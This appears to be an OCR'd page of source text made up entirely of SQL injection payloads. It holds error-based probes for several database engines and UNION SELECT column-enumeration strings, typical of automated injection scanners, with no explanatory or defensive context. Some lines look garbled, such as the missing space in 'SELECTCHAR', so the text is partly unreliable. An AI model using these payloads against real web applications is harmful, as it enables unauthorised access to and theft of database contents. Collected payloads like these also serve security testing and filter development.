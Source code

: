  AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)+CHAR(113)))#
 UNION ALL SELECT NULL 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)+CHAR(113)))
 AND 5650=CONVERT(INT,(SELECT CHAR(113)+CHAR(106)+CHAR(122)+CHAR(106)+CHAR(113)+(SELECT (CASE WHEN (5650=5650) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)+CHAR(113)))
 AND 3516=CAST((CHR(113)||CHR(106)||CHR(122)||CHR(106)||CHR(113))||(SELECT (CASE WHEN (3516=3516) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(112)||CHR(106)||CHR(107)||CHR(113)) AS NUMERIC)
 AND (SELECT 4523 FROM(SELECT COUNT(*),CONCAT(0x716a7a6a71,(SELECT (ELT(4523=4523,1))),0x71706a6b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)
 UNION ALL SELECT CHAR(113)+CHAR(106)+CHAR(122)+CHAR(106)+CHAR(113)+CHAR(110)+CHAR(106)+CHAR(99)+CHAR(73)+CHAR(66)+CHAR(109)+CHAR(119)+CHAR(81)+CHAR(108)+CHAR(88)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)+CHAR(113),NULL-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX'
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17